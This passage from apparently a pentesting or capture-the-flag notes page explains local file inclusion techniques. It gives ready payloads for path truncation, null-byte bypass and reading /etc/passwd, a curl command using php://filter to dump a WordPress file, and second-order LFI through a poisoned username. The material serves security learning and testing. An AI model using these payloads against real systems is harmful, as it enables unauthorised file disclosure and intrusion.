 Based on the those characteristics, we can create very long strings that evaluate to the target path.

{% hint style="warning" %}
For this technique to work, we need to **start the path with a non-existing directory**.
{% endhint %}

{% code overflow="wrap" %}
```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```
{% endcode %}

#### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Other Techniques

### PHP Filters

Read the source code of PHP files.

{% code overflow="wrap" %}
```bash
# Exfiltrating the source code of the config.php file
$ curl http://172.16.1.10/nav.php?page=php://filter/read=convert.base64-encode/resource=../../../../var/www/html/wordpress/index.php
```
{% endcode %}

For an example of this check [StreamIO](../../boxes/medium/streamio.md#local-file-inclusion).

### Second-Order Attacks

The goal here is to **poison a database entry**, such as the registration name, so another web application functionality gets tricked. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted. For example, if a web application provides the option to download our avatar via `/profile/$username/avatar.png`, we could try crafting a malicious LFI-based username, such as `../../../etc/passwd`.
